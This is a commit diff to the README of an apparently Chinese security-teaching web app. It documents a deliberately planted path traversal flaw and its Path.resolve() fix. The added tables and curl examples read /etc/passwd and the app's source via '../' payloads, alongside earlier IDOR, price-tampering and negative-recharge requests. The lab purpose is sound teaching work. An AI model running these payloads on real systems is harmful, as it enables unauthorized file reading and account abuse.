

Before and after one commit to wwj15680702015/Class01-security-repair, a Markdown page: README.md, 3 parts joined by grey strips. Shown at 94% size. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
README: 更新Day6动态页面加载功能与路径穿越漏洞说明

````diff
--- a/README.md
+++ b/README.md
@@ -35,9 +36,11 @@ Class01/
 ├── .gitignore             # Git 忽略规则
 ├── .env.example           # 环境变量示例
 ├── README.md              # 项目说明
+├── pages/
+│   └── help.html          # 帮助中心页面（路径穿越漏洞演示）
 ├── templates/
 │   ├── base.html          # 基础模板（导航栏）
-│   ├── index.html         # 首页（用户信息展示+快捷入口）
+│   ├── index.html         # 首页（用户信息展示+快捷入口+页面加载）
 │   ├── login.html         # 登录页面
 │   ├── register.html      # 注册页面
 │   ├── upload.html        # 头像上传页面
@@ -172,6 +175,16 @@ Day5 在保持所有功能不变的基础上，新增了个人中心、商城、
 | 4 | 业务逻辑漏洞 | 商品价格由客户端提交，可篡改为任意值 | `/cart` |
 | 5 | 业务逻辑漏洞 | 充值金额未校验正负，可提交负值扣减余额 | `/recharge` |
 
+### Day6 漏洞分析（提交 172c969）
+
+Day6 新增了动态页面加载功能，支持通过 `/page?name=help` 加载 `pages/` 目录下的静态页面。该功能**故意保留了路径穿越漏洞**用于教学实验，并在修复版中使用 `Path.resolve()` 进行边界校验。
+
+| 编号 | 漏洞类型 | 漏洞描述 | Payload |
+|:----:|---------|---------|---------|
+| 1 | 路径穿越（高危） | 任意文件读取，可读取应用源码和系统文件 | `/page?name=../../../etc/passwd` |
+| 2 | {{ content \| safe }}渲染（中危） | 文件内容直接渲染，可嵌入恶意HTML/JS | `/page?name=../app.py` |
+| 3 | 未授权访问（中危） | `/page` 无需登录即可访问 | `/page?name=help` |
+
 ## 测试说明
 
 ### 启动测试
@@ -198,7 +211,7 @@ python app.py
 - 验证安全响应头存在
 - 验证登录限速（每分钟超过 5 次错误返回 429）
 
-### 漏洞测试 Payload（Day5 教学漏洞）
+### 漏洞测试 Payload（Day5~Day6 教学漏洞）
 
 ```bash
 # 1. IDOR越权：用alice的cookie查看admin资料
@@ -214,6 +227,15 @@ curl -b cookies.txt -X POST http://target:5000/cart \
 # 4. 负值充值：扣减他人余额
 curl -b cookies.txt -X POST http://target:5000/recharge \
   -d 'user_id=2&amount=-100'
+
+# 5. 路径穿越：读取系统密码文件（漏洞版本）
+curl 'http://target:5000/page?name=../../../etc/passwd'
+
+# 6. 路径穿越：读取应用源码（漏洞版本）
+curl 'http://target:5000/page?name=../app.py'
+
+# 7. 正常访问帮助页面
+curl 'http://target:5000/page?name=help'
 ```
 
 ## Git 提交说明
````
Also changed, not shown: other parts of README.md (+3 -1 lines).
